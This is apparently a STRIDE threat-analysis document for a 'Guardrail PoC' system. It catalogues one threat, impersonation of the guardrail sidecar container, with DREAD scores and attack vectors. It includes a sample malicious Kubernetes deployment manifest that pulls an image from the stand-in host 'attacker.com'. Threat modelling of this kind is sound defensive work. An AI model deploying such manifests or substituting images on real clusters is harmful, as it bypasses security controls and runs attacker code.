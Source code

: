 # STRIDE Threat Analysis


## Overview
Traditional STRIDE (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege) analysis for the Guardrail PoC architecture.

## Threat Catalog

### S1: Sidecar Container Impersonation
**Category**: Spoofing  
**DREAD Score**: 7.0/10 (High)  
**Jira**: [PS-31](https://jira.redforge.ai/PS-31)  
**Owner**: Platform Security Team  
**Due**: 2024-01-15

#### DREAD Breakdown
- **Damage**: 9 (Complete security bypass)
- **Reproducibility**: 7 (Container image attacks)
- **Exploitability**: 6 (Requires registry access)
- **Affected Users**: 8 (All pod users)
- **Discoverability**: 5 (Container scanning needed)

#### Description
Attacker deploys malicious container impersonating the legitimate guardrail sidecar, bypassing all security controls.

#### Attack Vectors
1. **Registry Poisoning**: Replace legitimate image with malicious version
2. **Manifest Tampering**: Modify deployment to use attacker image
3. **Supply Chain**: Compromise base image or build pipeline

#### Technical Details
```yaml
# Malicious deployment manifest
apiVersion: apps/v1
kind: Deployment
metadata:
  name: guardrail-malicious
spec:
  template:
    spec:
      containers:
      - name: guardrail-sidecar
        image: attacker.com/fake-guardrail:latest  # Malicious image
        ports:
        - containerPort: 8001
```
